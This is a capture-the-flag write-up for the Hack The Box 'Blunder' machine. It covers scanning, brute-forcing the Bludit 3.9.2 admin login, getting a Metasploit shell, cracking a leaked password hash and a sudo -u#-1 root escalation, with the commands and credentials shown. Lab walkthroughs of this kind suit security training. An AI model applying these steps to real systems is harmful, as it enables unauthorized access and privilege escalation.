


# NMap
# nmap -A -T5 -p- -o blunder.nmap blunder.htb

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-09 17:58 CEST
Nmap scan report for blunder.htb (10.10.10.191)
Host is up (0.052s latency).
Not shown: 65533 filtered ports
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts
Aggressive OS guesses: HP P2000 G3 NAS device (91%), Linux 2.6.32 (90%), Linux 2.6.32 - 3.1 (90%), Infomir MAG-250 set-top box (90%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (90%), Linux 3.7 (90%), Ubiquiti AirOS 5.5.9 (90%), Ubiquiti Pico Station WAP (AirOS 5.2.6) (89%), Linux 2.6.32 - 3.13 (89%), Linux 3.0 - 3.2 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   51.56 ms 10.10.14.1
2   51.72 ms blunder.htb (10.10.10.191)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 117.10 seconds
```

# Dir Buster
## gobuster dir -u blunder.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o blunder-dir.txt -t 50

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://blunder.htb
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/06/09 18:20:36 Starting gobuster
===============================================================
/about (Status: 200)
/0 (Status: 200)
/admin (Status: 301)
/usb (Status: 200)
/LICENSE (Status: 200)
```
going to ***/admin*** page there is the Bludit login page, looking at html source the version seems to be v 3.9.2
looking at exploitdb there is an [exploit][1] for this version.

## wfuzz -c -w /usr/share/wordlists/wfuzz/general/medium.txt --hc 404,403 -u "http://10.10.10.191/FUZZ.txt" -t 100
```
Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.191/FUZZ.txt
Total requests: 1659

===================================================================
ID           Response   Lines    Word     Chars       Payload                                  
===================================================================

000001509:   200        4 L      23 W     118 Ch      "todo"                                   

Total time: 47.64041
Processed Requests: 1659
Filtered Requests: 1658
Requests/sec.: 34.82337
```
Looking at todo.txt we found:

```
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```
Maybe ***fergus*** is the username?!?
# Generate a wordlist from the site:

`cewl -w wordlists.txt -d 10 -m 1 http://10.10.10.191/`

# Brute force with Burp

First intercet a login request with proxy



then send the request to the intruder and set the payload to inject the password field with our wordlist



Start the attack and wait.
After a while I noticed that burpsuite doesn't automaticcaly refresh the CSRF token, so i write my own [script][3]
To test your regex you can use [Regex101][4]. 

Once we have done we found the password is ***RolandDeschain***

# Metasploit 

using metasploit with `***fergus***:***RolandDeschain***` we get a shell. Run `python -c "import pty;pty.spawn('/bin/bash')"` for having a tty.

# Bludit Files

Navigating inside the www folder, there is another installation of bludit with a database dir with some interesting files inside:

directory: /var/www/bludit-3.10.0a/bl-content/databases

```
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```

# John Time
zcat /usr/share/wordlists/rockyou.txt.gz | john -stdin password.txt 

rockyou this time doesn't contain the password, but [MD5Decrypt][2] knows.
So we have the user:

***hugo:Password120***

# Priv ESC
Once logged in with Hugo `sudo -l` give us the keys for root:

```

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

So for root run `sudo -u#-1 /bin/bash`

[#]://
[1]: https://www.exploit-db.com/exploits/47699
[2]: https://md5decrypt.net/en/Sha1 
[3]: brute.py
[4]: https://regex101.com/


